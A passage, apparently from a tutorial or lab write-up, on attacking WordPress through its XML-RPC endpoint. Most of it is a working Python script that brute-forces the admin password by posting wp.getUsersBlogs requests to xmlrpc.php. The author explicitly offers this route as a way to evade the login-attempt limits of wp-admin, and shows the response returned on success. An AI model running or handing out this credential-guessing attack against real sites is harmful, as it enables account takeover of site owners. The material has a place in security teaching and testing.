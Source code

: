 first string is webhook , create a temporary one on online,second parameter is some random blog

Now we bruteforce username and password
we can also use **wp-admin** page but there may be limit to number of attempts
so in that case we can use xmlrpc.php
it doesnot have any limit 

```python
import requests
url = "http://127.0.0.1:8080/wordpress/xmlrpc.php"
passwords = ['tech69','admin']
for i in range(0,len(passwords)):
	xmldata = """
	<?xml version="1.0" encoding="UTF-8"?>
	<methodCall>
	<methodName>wp.getUsersBlogs</methodName>
	<params>
	<param>
	<value><string>admin</string></value>
	</param>
	<param>
	<value><string>{}</string></value>
	</param>
	</params>
	</methodCall>
	""".format(passwords[i])
	r = requests.post(url,data=xmldata)
	#print(r.text)
	if not "Incorrect" in r.text:
		print("username:password is admin:{}".format(passwords[i]))
```

correct response will be like this 
```
E:\python>python wordpress-xmlrpc.py
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><struct>
  <member><name>isAdmin</name><value><boolean>1</boolean></value></member>
  <member><name>url</name><value><string>http://127.0.0.1:8080/wordpress/</string></value></member>
  <member><name>blogid</name><value><string>1</string></value></member>
  <member><name>blogName</name><value><string>Tech69</string></value></member>
  <member><name>xmlrpc</name><value><string>http://127.0.0.1:8080/wordpress/xmlrpc.php</string></value></member>
</struct></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>
```
